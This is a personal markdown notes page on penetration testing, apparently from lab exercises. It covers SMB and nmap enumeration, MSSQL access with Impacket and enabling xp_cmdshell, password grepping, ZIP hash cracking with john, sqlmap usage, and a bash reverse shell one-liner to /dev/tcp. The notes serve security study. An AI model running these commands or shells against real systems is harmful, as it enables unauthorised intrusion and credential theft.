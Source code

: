 ```yaml
---
title: "2022-06-28"
tags:
  - hacking
programming-languagues:
created: 2022-06-28
---
```

# 2022-06-28
---
## Resources
- [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

## Tools
### SMB
Server Message Blocks (Port 445) (aka Common Internet File System).

To enumerate:
```bash
smbclient -N -L \\\\{TARGET_IP}\\

-N: no password
-L: look at what services are available
```

To access:
```bash
smbclient -N \\\\{TARGET_IP}\\<folder>
```

When inside, **dir** prints the directories.

To download a file: **get**.

### NMAP
```bash
nmap -p- --min-rate 5000 -sV {TARGET_IP} 
nmap -sC -sV {TARGET_IP}
```

### Impacket
Can be used to connect and authenticate to a MSSQL server for example.

We can try to connect to the MSSQL server by using impacket's `mssqlclient.py` script along with the  
following flags:  
```bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

-windows-auth : this flag is specified to use Windows Authentication  
```

Check if I am admin inside MSSQL:
```sql
SELECT is_srvrolemember('sysadmin');
```

To check for `xp_cmdshell`:
```sql
EXEC xp_cmdshell 'net user';
```

To activate `xp_cmdshell`:
```sql
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
sp_configure; - Enabling the sp_configure as stated in the above error message  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE;
```

We can also use the powershell like this:
```bash
xp_cmdshell "powershell -c pwd"
```

Navigation:
```bash
xp_cmdshell "powershell -c cd C:/Users/Public; dir"
```

More on MSSQL Pentesting:
- Pentesting MSSQL ([HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))
- [MSSQL Injection CheatSheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

### BURP
Burp Suite is a powerful security testing application that can be used to perform web requests on web applications, mobile apps, and thick clients. Burp offers multiple capabilities such as web crawler, scanner, proxy, repeater, intruder and many more.  

A web crawler (also known as a web spider or web robot) is a program or automated script which browses the World Wide Web in a methodical, automated manner. This process  
is called Web crawling or spidering. Many legitimate sites, in particular search engines, use spidering as a means of providing up-to-date data.  

If you tunnel web traffic through Burp Suite (without intercepting the packets), by default it can passively spider the website, update the site map with all of the contents requested and thus creating a tree of files and directories without sending any further requests.

### Stable Reverse Shell
```bash
sudo python3 -m http.server 80
```

```bash
sudo nc -lvnp 443
```

- Functional php reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### SUID
Commonly noted as SUID (Set owner User ID), the special permission for the user access level has a single function: A file with SUID always executes as the user who owns the file, regardless of the user passing the command. If the file owner doesn't have execute permissions, then use an uppercase S here.

### Useful Commands
```bash
cat * | grep -i passw*
```

### Crack a ZIP file
Turn into hash:
```bash
zip2john backup.zip > hashes
```

```bash
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```

### SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL injection flaws. SQLmap automates the process of detecting and exploiting SQL injection. SQL Injection attacks can take control of databases that utilise SQL.

- Command:
```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
```

- Good shell:
```bash
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```